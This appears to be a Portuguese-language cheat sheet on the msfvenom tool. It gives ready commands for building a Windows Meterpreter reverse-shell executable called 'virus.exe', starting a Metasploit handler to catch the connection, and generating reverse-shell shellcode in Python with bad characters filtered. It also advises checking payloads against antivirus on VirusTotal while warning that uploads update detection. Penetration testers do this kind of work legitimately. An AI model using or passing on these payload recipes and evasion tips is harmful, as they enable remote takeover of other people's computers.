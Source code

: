 # MSFVENOM

O msfvenom é utilizado para criação de exploit.
Teste os seus payloads através do site https://www.virustotal.com.
*Cuidado pois ao enviar para o vírus total, a heurística pode ser atualizada nos antivírus.*

Verificar todos os payloads:
msfvenom --list payloads

Gerando payload para Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=443 -f exe > virus.exe
*Para receber a conexão do alvo será necessário que o msf esteja em execução:
msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > exploit*

Criando um exploit para Windows:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.100 LPORT=443 -b "\x00\x0a\x0d\x20" EXITFUNC=thread -f python
```
windows/shell_reverser_tcp ==> Tipo do exploit.
LHOST ==> IP de conexão reversa.
LPORT ==> Porta de conexão reversa.
-b "\x00\x0a\x0d\x20" ==> Bad caracteres ou caracteres inválidos.
-f python ==> Linguagem que vai ser gerado o exploit.
EXITFUNC=thread ==> Evita que a aplicação morra depois do exploit ser fechado.
